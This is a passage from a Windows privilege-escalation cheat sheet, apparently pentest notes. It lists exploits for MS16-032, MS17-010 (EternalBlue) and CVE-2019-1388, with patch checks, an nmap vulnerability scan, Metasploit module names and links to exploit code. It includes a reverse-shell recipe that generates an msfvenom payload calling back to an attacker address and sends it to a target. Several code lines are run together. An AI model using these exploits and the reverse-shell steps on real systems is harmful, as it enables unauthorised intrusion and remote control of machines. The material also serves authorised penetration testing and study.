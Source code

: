 Check if the patch is installed : `wmic qfe list | findstr "3139914"`

    Powershell:https://www.exploit-db.com/exploits/39719/https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1Binary exe : https://github.com/Meatballs1/ms16-032Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc

### MS17-010 (Eternal Blue)

Check the vulnerability with the following nmap script.

    nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

    auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Executionauxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detectionexploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruptionexploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution

If you can’t use Metasploit and only want a reverse shell.

    git clone https://github.com/helviojunior/MS17-010# generate a simple reverse shell to usemsfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exepython2 send_and_execute.py 10.0.0.1 revshell.exe

### CVE-2019-1388

Exploit : https://packetstormsecurity.com/files/14437/hhupd.exe.html

Working on : - Windows 7 - Windows 10 LTSC 10240

Failing on : - LTSC 2019 - 1709 - 1803

Detailed information about the vulnerability : https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege

## References

- [Windows Internals Book - 02/07/2017](https://docs.microsoft.com/en-us/sysinternals/learn/windows-internals)
- [icacls - Docs Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)
- [Privilege Escalation Windows - Philip Linghammar](https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html)
- [Windows elevation of privileges - Guifre Ruiz](https://guif.re/windowseop)
- [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
- [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
- [TOP–10 ways to boost your privileges in Windows systems - hackmag](https://hackmag.com/security/elevating-privileges-to-administrative-and-further/)
- [The SYSTEM Challenge](https://decoder.cloud/2017/02/21/the-system-challenge/)
- [Windows Privilege Escalation Guide - absolomb’s security blog](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
- [Chapter 4 - Windows Post-Exploitation - 2 Nov 2017 - dostoevskylabs](https://github.com/dostoevskylabs/dostoevsky-pentest-notes/blob/master/chapter-4.md)
- [Remediation for Microsoft Windows Unquoted Service Path Enumeration Vulnerability - September 18th, 2016 - Robert Russell](https://www.tecklyfe.com/remediation-microsoft-windows-unquoted-service-path-enumeration-vulnerability/)
- [Pentestlab.blog - WPE-01 - Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)
- [Pentestlab.blog - WPE-02 - Windows Kernel](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/)
- [Pentestlab.blog - WPE-03 - DLL Injection](https://pentestlab.blog/2017/04/04/dll-injection/)